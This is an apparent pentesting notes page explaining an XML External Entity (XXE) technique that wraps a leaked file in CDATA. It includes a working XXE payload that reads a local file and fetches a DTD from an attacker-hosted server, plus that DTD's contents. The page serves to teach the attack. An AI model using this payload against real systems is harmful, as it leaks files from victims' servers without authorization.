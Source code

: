```yaml
---
title: Pwning XML
tags:
  - advanced
  - web-app
  - pentesting
  - xml
  - injection
  - entities
  - entity
  - external
  - cdata
  - xxe
---
```


## Advanced file access with CDATA

We initially discuss XML External Entities (XXE) exploits in
[[xml-external-entities#Retrieving files|XML External Entities, Retrieving Files]], however, the
examples provided don't account for the content we're trying to leak being valid XML, causing the
XML parser to parse the contents of the file we're trying to leak. This likely causes the parser to
prematurely halt the processing of our data.

Using the [CDATA](https://en.wikipedia.org/wiki/CDATA) directive, we can instruct XML to ignore
parsing elements within our data - just give us the raw information from the file referenced. Here's
an example XXE payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file://{FILEPATH}" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://{LHOST}:{LPORT}/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

In the above example, we define the `start` entity to be the start of the `CDATA` XML entity. We
specify which file we want to leak with the `file` entity. Finally, we end the `CDATA` XML entity
with the `end` entity. How do we end up combining these elements?

We host a [Document Type Definition (DTD)](https://www.w3schools.com/xml/xml_dtd.asp) and reference
it as an external entity. This external entity will combine the `start`, `file`, and `end` entities
as one final entity, `wrapper`. We invoke the `dtd` entity, causing the victim host's XML parser to
download the `wrapper.dtd` DTD file from our attacker host. The contents of the `wrapper.dtd`
payload are provided below:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```

Once the victim host successfully download's the `wrapper.dtd` DTD file, we invoke the `wrapper`
entity, causing the victim host to retrieve the file specified by the `file` entity, and placing it
in our `CDATA` entity for easy exposure without XML parsing.

## Related pages

- [[xml-external-entities|XML external entities]]
